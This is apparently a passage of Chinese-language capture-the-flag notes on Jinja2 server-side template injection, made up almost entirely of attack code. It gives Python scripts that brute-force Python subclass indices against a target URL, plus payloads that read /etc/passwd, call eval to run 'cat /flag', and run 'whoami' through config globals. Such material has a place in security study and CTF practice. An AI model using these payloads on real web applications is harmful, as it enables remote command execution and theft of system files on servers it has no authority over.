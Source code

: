```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'_frozen_importlib_external.FileLoader' in str(response.content):
                print(i)
    except:
        pass

```

找到_frozen_importlib_external.FileLoader类名的位置

```php
{{"".__class__.__base__.__subclasses__()[79]["get_data"](0,"/etc/passwd")}}

```

### 2.eval

查找eval脚本

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'eval' in str(response.content):
                print(i)
    except:
        pass
```

```php
{{"".__class__.__base__.__subclasses__()[473].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("cat /flag").read()')}}
```



### 3.os

#### 通过config，调用os

```php
{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}
```
